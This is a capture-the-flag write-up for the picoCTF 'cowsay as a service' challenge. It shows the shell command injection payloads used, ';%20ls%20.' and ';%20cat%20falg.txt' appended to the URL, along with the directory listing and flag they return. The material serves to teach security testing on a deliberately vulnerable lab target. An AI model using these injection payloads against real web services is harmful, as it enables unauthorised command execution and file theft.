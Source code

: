 ## Description
Now presenting cowsay as a service

## Solution
It seem the site pass the value received from <message> in url to `cowsay` command of linux:

```https://caas.mars.picoctf.net/cowsay/test
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

And it might be vulnerable to command injection. just checking:
```https://caas.mars.picoctf.net/cowsay/test;%20ls%20.
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock

```

yes. simple search for flag and read it:
```https://caas.mars.picoctf.net/cowsay/test;%20cat%20falg.txt
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

```
